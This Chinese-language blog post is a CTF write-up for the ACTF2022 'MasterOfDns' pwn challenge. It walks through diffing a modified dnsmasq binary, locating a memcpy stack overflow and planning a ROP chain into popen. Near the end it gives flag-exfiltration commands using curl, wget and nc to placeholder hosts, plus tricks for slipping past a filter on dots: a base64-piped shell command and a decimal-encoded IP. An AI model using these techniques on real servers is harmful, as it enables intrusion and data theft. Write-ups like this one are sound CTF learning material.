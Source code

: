 ```yaml
---
layout: article
pageview: true
key: 2022-07-22-actf2022-master-of-dns
title: ACTF2022-MasterOfDns题解
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


这题真是令我收获良多，学到很多新姿势。

本来是Mark佬复现的一道题目，鄙人胯下海口说~~32位的rop还不秒了？~~，结果猛调了两天，令人感叹😋。
<!--more-->

### 初见题目

[题目连接](https://adworld.xctf.org.cn/match/list?event_hash=ba9b2b4c-7265-45ce-aa4b-c917bc5ce1bc.event)

题目环境32位，没开`pie`和`canary`，根据题目给的README可以发现这是一个功能完备的DNS服务器，可以正常的dig。通过IDA打开后发现十分复杂，一下子无法确定漏洞在那个函数。

题目给了提示说源代码可以参考`dnsmasq`，我们通过文件中的字符串可以确定版本为`2.86`，编译环境`Ubuntu20`，遂编译一份和题目环境一样的可执行文件出来。

### 编译&Bindiff比较

我们可以在`dnsmasq`官网找到`2.86`版本的源代码，然后修改`Makefile`文件，令其编译参数如下
```
CFLAGS        = -Wall -W -fno-stack-protector -m32
LDFLAGS       = -m32 -no-pie
```
这里需要去掉`CFLAGS`里的`-O2`优化选项，如果有这一选项，编译出的文件与题目文件相比有43处大的函数不同，而去掉后只有2处，显然题目文件也去掉了该选项。

修改好后直接`make`即可编译，输出文件在`src/dnsmasq`。

我们可以使用`Bindiff`来方便的比较两个`elf`文件之间的区别，我们可以看到两个文件之间大约有10个相似度不为1的函数。我们双击点开对比，发现又一个函数只在结尾增加了一次`memcpy`，我们可以确定这里就是栈溢出的漏洞点。

![image.png](https://s2.loli.net/2022/07/22/nLhwyH3q56UovIi.png)

![image.png](https://s2.loli.net/2022/07/22/vGfEpxlACc3UBrn.png)

### 调试漏洞点

找到漏洞点后我们开始判断溢出的参数，通过阅读源代码以及`gdb`调试后，我们发现这里的`memcpy`会将我们请求中的域名部分复制到栈上去，我们只需要用`pwntools`来模拟DNS请求即可触发漏洞。

在~~学习了DNS报文格式~~WireShark抓包后，我们拿到了正常DNS请求的头和尾，中间的域名部分即是我们需要构造的`payload`，然而这部分有诸多限制。

例如我们要查询的域名是`baidu.com`，在报文中写成`\x05baidu\x03com\x00`，中间的`.`被替换为长度，而且每一节的长度最大为`0x3f`，所以我们的报文中间不能出现`\x00`和`\x2e`(chr(0x2e)='.')，而且长度表示与后面的字符串长度必须对应，否则都不能通过检查。

在用`gdb`调试程序时，需要切换为`root`用才能`attach`到程序，而且不能通过`gdb.debug()`来启动、调试程序，所以我创建了一个新的脚本来自动获取程序的`pid`并自动`attach`，结束调试后自动`kill`，需要在`root`用户下执行.

```shell
#!/bin/sh
port=9999
pid=$(netstat -nlp | grep :$port | awk '{print $7}' | awk -F"/" '{ print $1 }');
gdb -p $pid -iex="b *0x0804F444";

read -p "Press any key to resume ..." tmp;

if [  -n  $pid  ];  then
    kill  -9  $pid;
fi
```

由于我们是网络发包请求，所以不能通过什么途径来泄露`libc`地址，进一步使用`system`函数。我们查找程序的`plt`表，发现有一个`popen`函数可以利用，这个函数的效果与`system`类似，额外需要一个"r"或“w”字符串地址作为参数。

由于是32位环境，参数需要放在栈里，而我们既不知道栈地址，也不能找到合适的`gadget`来使用。这里我们可以通过IDA来找到程序里调用`popen`函数的相关汇编，可以找到如下代码
```
push edx;
push eax;
call popen;
```
这样我们不需要知道栈地址，只需要让`eax`为命令地址，`edx`为"r"或"w"字符串的地址即可。

而恰好`edx`里存着我们输入内容的附近的栈地址，我们通过一些`gadget`操作一番，即可设置`eax`寄存器。而字符串"r"也可以在`bss`段搜到，如此一来我们只需要反弹shell或反弹flag。

### 🐖🖊操作反弹flag


当时在这一步卡了好久，因为不管使用``curl(wget) aaa:bbb/`cat flag` `` 还是`cat flag|nc aaa bbb` 都只能建立连接而无法获取flag内容，最后使用``curl aaa:bbb/`pwd` ``测试才发现`popen`后的目录为根目录而不是启动的目录，没有flag文件自然不能获取内容。。。

这里介绍两种反弹flag的命令写法，由于我们的`payload`不能出现`.`符号，而这又是ip或域名中必备的组件，所以有以下方法绕过

1. Mark佬的方法，我们先将反弹flag命令用base64编码，比如说编码后的结果为`ABCD==`，那么`payload`就为`echo ABCD==|base64 -d|sh`
2. 鄙人的方法，其实给ip可以写成10进制的方式，`1.2.3.4`转化为10进制的方法是`4+3*256+2*256^2+1*256^3`，结果为`16909060`，代替正常命令中的ip即可